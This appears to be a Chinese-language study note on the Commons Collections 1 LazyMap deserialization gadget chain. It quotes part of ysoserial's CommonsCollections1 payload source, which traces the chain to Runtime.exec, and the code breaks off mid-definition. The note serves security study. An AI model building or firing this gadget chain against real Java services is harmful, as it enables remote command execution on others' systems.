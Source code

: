 ## 背景
在ysoserial中CC1的payload中使用了`LazyMap`，`LazyMap`和`TransformedMap`类似，都继承 `AbstractMapDecorator`
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_38_b1Ym9cZ3.png)
我们可以先看看payload
```java
package ysoserial.payloads;

import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
@SuppressWarnings({"rawtypes", "unchecked"})
@PayloadTest ( precondition = "isApplicableJavaVersion")
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.FROHOFF })
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {

	public InvocationHandler getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
```